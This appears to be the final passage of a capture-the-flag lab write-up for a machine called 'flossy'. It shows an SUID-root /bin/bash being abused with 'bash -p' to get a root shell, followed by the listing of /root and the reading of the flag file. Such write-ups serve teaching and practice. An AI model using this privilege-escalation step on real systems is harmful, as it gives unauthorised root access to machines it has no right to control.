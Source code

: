 The network is reloaded so lets again check the /bin/bash permissions →

```bash
╭─sophie@flossy /etc/NetworkManager/dispatcher.d 
╰─$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```
{: .nolineno}
{: .nolineno}

Now lets have a root shell →

```bash
╭─sophie@flossy ~ 
╰─$ bash -p
bash-5.2# whoami
root
bash-5.2# id
uid=1001(sophie) gid=1001(sophie) euid=0(root) groups=1001(sophie),100(users)
bash-5.2# cd /root
bash-5.2# ls -al
total 40
drwx------  6 root root 4096 Oct 31 08:41 .
drwxr-xr-x 18 root root 4096 Jul 22 10:10 ..
lrwxrwxrwx  1 root root    9 Jun 15 06:14 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Oct  6 20:06 .local
drwxr-xr-x  4 root root 4096 Oct 10 13:13 .npm
drwxr-xr-x 12 root root 4096 Sep 19 20:22 .oh-my-zsh
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Oct  7 09:46 root.txt
drwx------  2 root root 4096 Oct 10 17:21 .ssh
-rw-r--r--  1 root root 3890 Jul 22 09:42 .zshrc
bash-5.2# zsh
flossy# cat root.txt 
FLAG---FLAG---FLAG---FLAG
flossy#
```
{: .nolineno}
{: .nolineno}

I am root now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }